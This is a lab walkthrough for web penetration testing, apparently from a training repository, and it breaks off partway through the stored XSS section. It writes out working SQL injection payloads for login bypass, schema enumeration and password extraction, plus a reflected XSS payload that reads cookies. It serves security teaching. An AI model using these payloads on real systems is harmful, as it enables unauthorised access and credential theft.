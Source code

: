 # Web Penetration Testing Labs - Step-by-Step Solutions

## Lab 1: SQL Injection (sql/)

### Step-by-Step Exploitation

**Step 1: Identify the vulnerability**
- Navigate to `sql/login.php`
- Observe the login form with username and password fields

**Step 2: Test for SQL injection**
- Username: `admin'` Password: `test`
- Error indicates SQL injection vulnerability

**Step 3: Authentication bypass**
- Username: `admin' --` Password: `anything`
- OR Username: `' OR '1'='1' --` Password: `anything`
- Successfully bypasses authentication

**Step 4: Database enumeration**
- Username: `' UNION SELECT 1,2,3 --` Password: `test`
- Username: `' UNION SELECT schema_name,2,3 FROM information_schema.schemata --`
- Username: `' UNION SELECT table_name,2,3 FROM information_schema.tables WHERE table_schema='test' --`

**Step 5: Data extraction**
- Username: `' UNION SELECT username,pass,3 FROM users --`
- Extract all usernames and passwords from the database

---

## Lab 2: Cross-Site Scripting (XSS) (xss/)

### 2.1 DOM-based XSS in contact.php

**Step 1: Analyze the vulnerable code**
- Navigate to `xss/contact.php`
- Notice the JavaScript: `var lang = <?php echo '"'.@$_GET['lang'].'";';?>`

**Step 2: Craft the payload**
- URL: `contact.php?lang=";alert('XSS');//`
- The payload breaks out of the string and executes JavaScript

**Step 3: Execute the attack**
- Visit: `http://target.com/xss/contact.php?lang=";alert(document.cookie);//`
- XSS executes and displays cookies

### 2.2 Stored XSS via User-Agent

**Step 1: Intercept the contact form**
- Go to `xss/contact.php`
- Fill out the contact form
- Use Burp Suite to intercept the request
